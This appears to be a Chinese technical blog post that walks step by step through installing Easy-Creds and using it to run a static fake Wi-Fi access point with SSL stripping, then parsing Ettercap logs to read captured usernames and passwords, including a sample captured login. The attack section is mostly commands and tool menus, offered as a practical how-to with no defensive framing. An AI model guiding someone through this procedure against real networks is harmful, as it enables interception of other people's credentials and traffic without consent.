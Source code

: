 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用Easy-Creds工具攻击无线网络
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 使用Easy-Creds工具攻击无线网络
lock: need
---
```


# 使用Easy-Creds工具攻击无线网络

Easy-Creds是一个菜单式的破解工具。该工具允许用户打开一个无线网卡，并能实现一个无线接入点攻击平台。Easy-Creds可以创建一个欺骗访问点，并作为一个中间人攻击类型运行，进而分析用户的数据流和账户信息。它可以从SSL加密数据中恢复账户。本节将介绍使用Easy-Creds工具攻击无线网络。

Easy-Creds是BackTrack5中的一部分。在Kali中，默认没有安装该工具。所以，需要先安装Easy-Creds工具才可使用。

**安装Easy-Creds工具。具体操作步骤如下所示。**

（1）从https://github.com/brav0hax/easy-creds网站下载Easy-Creds软件包，其软件包名为easy-creds-master.zip。

（2）解压下载的软件包。执行命令如下所示：

```
root@localhost:~# unzip easy-creds-master.zip
Archive: easy-creds-master.zip
bf9f00c08b1e26d8ff44ef27c7bcf59d3122ebcc
  creating: easy-creds-master/
 inflating: easy-creds-master/README
 inflating: easy-creds-master/definitions.sslstrip
 inflating: easy-creds-master/easy-creds.sh
 inflating: easy-creds-master/installer.sh
```

从输出的信息中，可以看到Easy-Creds软件包被解压到easy-creds-master文件中。从以上信息中，可以看到在easy-creds-master文件中有一个installer.sh文件，该文件就是用来安装Easy-Creds软件包的。

（3）安装Easy-Creds软件包。在安装Easy-Creds软件包之前，有一些依赖包需要安装。这些依赖包，可以参考easy-creds-master文件中的README文件安装相关的依赖包。然后，安装Easy-Creds包。执行命令如下所示：

```
root@kali:~# cd easy-creds/
root@kali:~/easy-creds# ./installer.sh
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e|||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.7 - Garden of Your Mind
        Installer
Please choose your OS to install easy-creds
1\. Debian/Ubuntu and derivatives
2\. Red Hat or Fedora
3\. Microsoft Windows
4\. Exit
Choice:
```

以上信息显示了，安装easy-creds的操作系统菜单。

（4）这里选择安装到Debian/Ubuntu，输入编号1，将显示如下所示的信息：

```
Choice: 1
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.7 - Garden of Your Mind
          Installer
Please provide the path you'd like to place the easy-creds folder. [/opt] :   #选择安装位置，本例中使用默认设置
[*] Installing pre-reqs for Debian/Ubuntu…
[*] Running 'updatedb'
[-] cmake is not installed, will attempt to install…
  [+] cmake was successfully installed from the repository.
[+] I found gcc installed on your system
[+] I found g++ installed on your system
[+] I found subversion installed on your system
[+] I found wget installed on your system
[+] I found libssl-dev installed on your system
[+] I found libpcap0.8 installed on your system
[+] I found libpcap0.8-dev installed on your system
[+] I found libssl-dev installed on your system
[+] I found aircrack-ng installed on your system
[+] I found xterm installed on your system
[+] I found sslstrip installed on your system
[+] I found ettercap installed on your system
[+] I found hamster installed on your system
[-] ferret is not installed, will attempt to install…
[*] Downloading and installing ferret from SVN
……
[*] Installing the patched freeradius server…
……
make[4]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc/rfc'
make[3]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc'
make[2]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11/doc'
make[1]: Leaving directory `/tmp/ec-install/freeradius-server-2.1.11'
[+] The patched freeradius server has been installed
[+] I found asleap installed on your system
[+] I found metasploit installed on your system
[*] Running 'updatedb' again because we installed some new stuff
…happy hunting!
```

以上信息显示了安装Easy-Creds包的详细过程。在该过程中，会检测easy-creds的依赖包是否都已安装。如果没有安装，此过程中会安装。Easy-Creds软件包安装完成后，将显示happy hunting！信息。

**使用Easy-Creds工具破解无线网络。具体操作步骤如下所示。**

（1）启动Easy-Creds工具。执行命令如下所示：

```
root@localhost:~/easy-creds-master#./easy-creds.sh
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. Prerequisites & Configurations
2\. Poisoning Attacks
3\. FakeAP Attacks
4\. Data Review
5\. Exit
q. Quit current poisoning session
Choice:
```

以上输出的信息显示了Easy-Creds工具的攻击菜单。

（2）这里选择伪AP攻击，输入编号3。将显示如下所示的信息：

```
Choice: 3
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. FakeAP Attack Static
2\. FakeAP Attack EvilTwin
3\. Karmetasploit Attack
4\. FreeRadius Attack
5\. DoS AP Options
6\. Previous Menu
Choice:
```

以上输出信息显示了伪AP攻击可使用的方法。

（3）这里选择使用静态伪AP攻击，输入编号1。将显示如下所示的信息。

![img](https://img-blog.csdnimg.cn/20181107001209342.jpeg)

设置完以上的信息后，将会自动启动一些程序。几秒后，将会打开几个有效窗口。

![img](https://img-blog.csdnimg.cn/20181107001341328.jpeg)

（4）当有用户连接Wifi接入点时，Easy-Creds将自动给客户端分配一个IP地址，并且能够访问互联网。如果在互联网上访问一个安全网址时，该工具将除去SSL并删除安全连接并在后台运行。所以，能够读取到客户端登录某个网站的用户名和密码。捕获到一个登录http://www.live.com网站的用户名和密码。其用户名为[test@live.com](mailto:test@live.com)，密码为qwert。

（5）此时在Easy-Creds的主菜单中选择数据恢复，输入编号4，如下所示：

```
At any time, ctrl+c to cancel and return to the main menu
1\. Prerequisites & Configurations
2\. Poisoning Attacks
3\. FakeAP Attacks
4\. Data Review
5\. Exit
q. Quit current poisoning session
Choice: 4
```

（6）选择数据恢复后，将显示如下所示的信息：

```
____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
1\. Parse SSLStrip log for credentials
2\. Parse dsniff file for credentials
3\. Parse ettercap eci file for credentials
4\. Parse freeradius attack file for credentials
5\. Previous Menu
Choice: 3
```

以上信息显示了可用证书的方法。

（7）这里选择分析Ettercap eci文件，输入编号3，将显示如下所示的信息：

```
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 Version 3.8-dev - Garden of New Jersey
At any time, ctrl+c to cancel and return to the main menu
Ettercap logs in current log folder:
/root/easy-creds-master/easy-creds-2018-11-07-1722/ettercap2018-11-07-1724.eci
Enter the full path to your ettercap.eci log file:
```

从输出信息中，可以看到Ettercap日志文件的保存位置。

（8）此时输入ettercap.eci日志文件的全路径。这里只需要通过复制并粘贴提供的整个Ettercap路径就可以了。如下所示：

```
Enter the full path to your ettercap.eci log file: /root/easy-creds-master/easy-creds-2018-11-07-1722/ettercap2014-07-24-1724.eci
```

输入以下路径后，将显示如图所示的界面

![img](https://img-blog.csdnimg.cn/20181107001728273.jpeg)

（9）从该界面可以清楚的看到，截获的客户端用户信息及登录的网站。



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)